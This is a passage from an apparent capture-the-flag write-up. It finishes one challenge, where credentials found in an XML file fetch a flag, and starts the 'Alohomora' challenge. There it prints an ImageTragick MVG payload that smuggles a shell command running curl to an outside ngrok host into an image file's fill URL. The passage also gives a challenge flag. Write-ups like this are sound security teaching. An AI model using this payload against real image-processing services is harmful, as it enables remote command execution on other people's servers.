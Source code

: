 We tried a simple get call to this url, but it failed. After more debugging, we found that we need to send username and password in the request body to fetch the flag. A simple “password” string search revealed an xml where the username and password value were defined:

<div style="text-align:center; margin: 10px;width: 80%; margin: auto">
  <img src="/images/2021/05/ctf-usa-img2.png" style="box-shadow: 2px 2px 10px 1px #aaa">
</div>

The final step was to send the username and password in the request body to the URL revealed in first screenshot and it returned the `flag{TVbTVuKnKLonxWaKAEmb}`.

### #10 India - Alohomora



Use this magical spell to unlock the doors!!

Link: http://138.*.*.*:8080/

#### Solution

By looking at the website and the description of the challenge, we knew the site was vulnerable to **ImageTragick**. To confirm the vulnerability, we tried sending a simple http request to our local development site using the below payload.

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://test.com/i.jpg"|setsid /bin/curl https://9902da737e4a.ngrok.io")'
pop graphic-context
```

When we uploaded this **mvg** file, we got a http request from the vulnerable application. This confirmed that the site was vulnerable to ImageTragick and it was using a vulnerable ImageMagick package to process images.

<div style="text-align:center; margin: 10px;width: 100%; margin: auto">